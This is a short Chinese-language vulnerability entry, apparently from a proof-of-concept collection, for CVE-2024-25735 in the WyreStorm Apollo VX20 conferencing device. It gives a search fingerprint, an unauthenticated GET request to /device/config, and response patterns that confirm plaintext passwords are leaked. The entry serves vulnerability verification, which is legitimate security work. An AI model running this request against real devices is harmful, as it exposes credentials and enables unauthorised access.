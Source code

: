 ﻿# WyreStorm Apollo VX20 信息泄露漏洞

> 更新时间：2024-03-08

> 漏洞编号：CVE-2024-25735

> 漏洞说明：WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。

> 漏洞特征：icon_hash="-893957814"

> 验证脚本：HTTP

```
GET /device/config HTTP/1.1
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?password)(?=.*?softAp).*?$

> 上传文件定位：

> 验证文件来源：WyreStorm Apollo VX20 信息泄露漏洞.poc

